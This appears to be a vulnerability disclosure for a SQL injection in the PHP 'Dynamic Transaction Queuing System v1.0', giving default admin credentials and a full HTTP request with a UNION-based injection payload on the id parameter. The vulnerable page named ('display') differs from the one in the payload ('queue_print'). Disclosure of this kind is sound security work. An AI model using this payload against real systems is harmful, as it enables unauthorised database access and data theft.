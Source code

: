 # Dynamic Transaction Queuing System v1.0 by oretnom23 has SQL injection

BUG_Author: Grace

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /queuing/index.php?page=display&id=

Vulnerability location: /queuing/index.php?page=display&id=, id

dbname =queuing_db

[+] Payload:  // Leak place ---> id

```sql
GET /queuing/index.php?page=queue_print&id=-1%20union%20select%201,database(),3,4,5,6,7,8,9--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/200096558-bc446ad7-5a42-493c-aa3d-415f5e6208b5.png)
